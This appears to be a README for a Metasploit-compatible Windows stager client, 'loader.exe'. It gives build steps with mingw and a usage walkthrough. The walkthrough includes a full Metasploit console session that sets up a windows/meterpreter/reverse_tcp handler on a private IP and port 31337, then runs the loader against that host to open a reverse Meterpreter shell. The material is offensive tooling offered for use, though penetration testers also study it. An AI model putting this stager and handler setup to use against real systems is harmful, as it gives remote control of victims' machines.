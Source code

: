 A quick stager client compatible with the Metasploit Framework

Reference:

1. http://mail.metasploit.com/pipermail/framework/2012-September/008660.html
2. http://mail.metasploit.com/pipermail/framework/2012-September/008664.html

Use:

1. Start a multi/handler with your favorite windows reverse_tcp payload
2. Run: loader.exe [host] [port]

How to compile:

1. Install mingw
2. Edit build.bat if mingw is installed somewhere other than c:\mingw
3. run build.bat

ToDo:

1. 64-bit compatability (see message #2)
2. get a Windows build environment with make

msf > use exploit/multi/handler 
msf  exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(handler) > set LPORT 31337
LPORT => 31337
msf  exploit(handler) > set LHOST 192.168.95.241
LHOST => 192.168.95.241
msf  exploit(handler) > exploit -j

loader.exe 192.168.95.241 31337

